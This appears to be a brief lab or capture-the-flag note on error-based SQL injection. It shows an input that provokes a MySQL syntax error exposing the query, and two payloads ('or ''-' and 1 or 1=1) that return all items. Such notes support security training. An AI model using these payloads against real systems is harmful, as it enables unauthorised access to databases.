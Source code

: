 # SQL Injection – Error Based

Search: `item=&search='`
Output: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' OR itemdesc LIKE '%'%' OR categ LIKE '%'%'' at line 1

Search: `item=&search=' or ''-'`
Output: all items

Payload: `item=1 or 1=1&search=`
Output: all items